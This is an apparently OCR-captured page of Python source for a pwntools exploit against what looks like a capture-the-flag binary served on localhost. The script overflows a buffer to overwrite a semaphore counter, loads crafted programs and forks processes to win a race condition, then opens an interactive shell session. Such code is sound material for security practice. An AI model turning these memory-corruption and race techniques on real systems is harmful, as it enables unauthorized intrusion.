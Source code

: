```python
def main():    
    p = process(BINARY)

    input("waiting for input..")
    log.info("Exploit starts!")

    iterations = 10000000
    batch=100
    target_ypu = 0
    r1_program = 0
    r2_program = 1
    r3_program = 2
    yancode = gen_yancode()
    adjusted_yancode = gen_yancode(adjusted=True)

    r0 = remote('localhost', 1337)
    r1 = remote('localhost', 1337)
    r2 = remote('localhost', 1337)
    r3 = remote('localhost', 1337)

    # Overwrite semaphore counter
    buf = b'A' * (384 * 32 - 768 * 15)
    buf += b'\x80'  # new counter
    # buf += b'\x00' * (MAX_YANCODE_SIZE - len(buf))
    load_program(r0, 15, buf)

    # Load programs
    load_program(r1, r1_program, yancode)
    load_program(r2, r2_program, yancode)
    load_program(r3, r3_program, adjusted_yancode)
    # Load program for main thread
    init_ypu(r1, target_ypu, r1_program)

    # Execute race!
    # TODO: change yancode, so that it would verify 'p' resides with the buffer before writing it
    pid1 = os.fork()
    if pid1 == 0:
        # Child 1
        for _ in range(iterations):
            # log.info("Running r1..")
            run_ypu(r1, target_ypu, batch)
        os.kill(os.getpid(), signal.SIGKILL.value)
    else:
        # Parent    
        pid2 = os.fork()
        if pid2 == 0:
            # Child 2
            for _ in range(iterations):
                # log.info("Running r2..")
                init_ypu(r2, target_ypu, r2_program, batch)
            os.kill(os.getpid(), signal.SIGKILL.value)
        else:
            # Parent
            for _ in range(iterations):
                # log.info("Running r3..")
                init_ypu(r3, target_ypu, r3_program, batch)

    os.waitpid(pid1, 0)
    os.waitpid(pid2, 0)
    
    p.interactive()
```

